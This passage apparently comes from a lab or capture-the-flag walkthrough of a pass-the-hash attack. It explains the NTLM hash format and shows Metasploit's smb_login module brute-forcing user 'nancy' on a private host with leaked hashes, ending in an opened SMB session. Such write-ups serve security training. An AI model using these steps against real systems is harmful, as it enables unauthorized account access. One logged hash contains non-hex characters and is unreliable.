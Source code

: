 ```
```

The file contains NTLM hashes in the format:
```
aad3b435b51404eeaad3b435b51404ee:actual_ntlm_hash
```

The first part (`aad3b435b51404eeaad3b435b51404ee`) is the LM hash placeholder, while the second part contains the actual NTLM hash. In modern Windows systems, LM hashes are typically empty and replaced with this placeholder.

### Step 2: Hash Extraction

For easier processing, let's extract just the NTLM portions:

```bash
cut -d':' -f2 leaked-hashes.txt > ntlm-hashes.txt
```

However, for pass-the-hash attacks, we need the full format, so we'll use the original file directly.

### Step 3: Pass-the-Hash Attack

Pass-the-hash attacks allow us to authenticate using the hash directly without knowing the plaintext password. This is possible because Windows NTLM authentication can work with just the hash:

```bash
use auxiliary/scanner/smb/smb_login
set SMBUser nancy
set PASS_FILE leaked-hashes.txt
set RHOSTS 10.2.27.100
set CreateSession true
run
```

**Pass-the-Hash Attack Results:**
```
[*] 10.2.27.100:445 - 10.2.27.100:445 - Starting SMB login bruteforce
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\nancy:aad3b435b51404eeaad3b435b51404ee:a3dwea4b4v957f2e037rf75cfe5218ed'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\nancy:aad3b435b51404eeaad3b435b51404ee:33f0bc3a5ea6ea0a0eb8d81e8a3c18e0'
[... several failed attempts ...]
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\nancy:aad3b435b51404eeaad3b435b51404ee:34ec1e4f6f7cbe35a09ee51b1c0039d2'
[+] 10.2.27.100:445 - 10.2.27.100:445 - Success: '.\nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad'
[*] SMB session 3 opened (10.10.49.6:43419 -> 10.2.27.100:445) at 2025-09-28 19:34:03 +0530
[*] 10.2.27.100:445 - Scanned 1 of 1 hosts (100% complete)
[*] 10.2.27.100:445 - Bruteforce completed, 1 credential was successful.
[*] 10.2.27.100:445 - 1 SMB session was opened successfully.
```

**Success!** User `nancy` authenticates with hash: `b3ddea4b4b957f3e037af75cfe5317ad`
